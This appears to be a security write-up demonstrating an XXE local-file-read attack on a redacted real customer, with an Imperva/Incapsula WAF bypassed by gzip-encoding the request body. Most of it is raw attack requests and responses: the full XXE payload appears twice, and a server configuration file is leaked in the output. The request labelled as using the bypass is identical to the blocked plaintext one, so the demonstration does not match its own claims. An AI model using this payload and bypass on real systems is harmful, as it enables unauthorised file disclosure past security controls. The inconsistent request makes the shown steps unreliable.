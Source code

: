# Demo of the bypass being used to exploit a real customer
Please note the name of the customer has been redacted. In this example we're doing LFI via XXE.

## Without the WAF bypass
First make a request for XXE without using the WAF bypass:

```
POST /HTTPIntNet.aspx HTTP/2
Host: images.example.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Cookie: visid_incap_2601068=xxxxx;  incap_ses_1211_2601068=yyyyy
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
Content-Length: 216
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
Referer: https://images.example.com/foo.aspx
Origin: https://images.example.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<!DOCTYPE foo 
[<!ENTITY xxe SYSTEM "file:///C:/Program Files (x86)/redacted/Common Files/redacted.ini">
]>
<FUNCTION>
<NAME>&xxe;</NAME>
</FUNCTION>
```

Response:
```
HTTP/2 403 Forbidden
Content-Type: text/html
Cache-Control: no-cache, no-store
Content-Length: 866
X-Iinfo: 7-41000613-0 PNNN RT(1639592547810 0) q(0 0 0 0) r(0 -1) B15(3,501529,0) U6
Set-Cookie: incap_ses_1211_2601068=KVPoEbP3dDJg3ktCjFbOEGMyumEAAAAABlII4w2xe7Qi4FUmmOjRCA==; path=/; Domain=.bftg.com
<html style="height:100%"><head><META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW"><meta name="format-detection" content="telephone=no"><meta name="viewport" content="initial-scale=1.0"><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"><script type="text/javascript" src="/_Incapsula_Resource?SWJIYLWA=719d34d31c8e3a6e6fffd425f7e032f3"></script></head><body style="margin:0px;height:100%"><iframe id="main-iframe" src="/_Incapsula_Resource?CWUDNSAI=23&xinfo=7-41000613-0%20PNNN%20RT%281639592547810%200%29%20q%280%200%200%200%29%20r%280%20-1%29%20B15%283%2c501529%2c0%29%20U6&incident_id=1211000510216920672-176505529399184583&edet=15&cinfo=03000000c67f&rpinfo=0&mth=POST" frameborder=0 width="100%" height="100%" marginheight="0px" marginwidth="0px">Request unsuccessful. Incapsula incident ID: 1211000510216920672-176505529399184583</iframe></body></html>
```

## With the WAF bypass
Here's the same XXE request, but using the gzip exploit:
```
POST /HTTPIntNet.aspx HTTP/2
Host: images.example.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Cookie: visid_incap_2601068=xxxxx;  incap_ses_1211_2601068=yyyyy
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
Content-Length: 216
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
Referer: https://images.example.com/foo.aspx
Origin: https://images.example.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<!DOCTYPE foo 
[<!ENTITY xxe SYSTEM "file:///C:/Program Files (x86)/redacted/Common Files/redacted.ini">
]>
<FUNCTION>
<NAME>&xxe;</NAME>
</FUNCTION>
```

The XXE payload gets passed by the WAF to the backend server where the XXE payload is triggered, returning the content of the LFI file we requested:
```
HTTP/2 200 OK
Cache-Control: private
Content-Type: text/xml; charset=utf-8
Server: Microsoft-IIS/8.5
X-Aspnet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Wed, 15 Dec 2021 18:25:06 GMT
Set-Cookie: redacted=redacted; path=/; Httponly; Secure
Vary: Accept-Encoding
Set-Cookie: incap_ses_1211_2601068=xxxx=; path=/; Domain=.example.com
X-Cdn: Imperva
X-Iinfo: 13-108070049-108070050 NNYN CT(26 25 0) RT(1639592714064 0) q(0 0 1 0) r(1 1) U6
There is no function named [PxxM-GxxxxxSYSTEM]
CACHEPATH=C:\PROGRAM FILES (X86)\redacted\COMMON FILES\CACHE
CACHEURL=HTTPS://172.n.n.15/CACHE/
[redacted]
REDIRECTREQ=HTTP://Mxxxxxxxx3.example.COM
LASTUSEDPATHCACHE=C:\PROGRAM FILES (X86)\redacted\COMMON FILES\CACHE
[PxxxxxxxxSVC]
SERVICEACCOUNT=
SERVICEPWD=
.
```

The gzip bypass exploit is what made this attack possible. Note that not all webservers will process the request correctly because of the gzip/plain text mismatch, but IIS, Apache, NGINX all appear to work just fine.
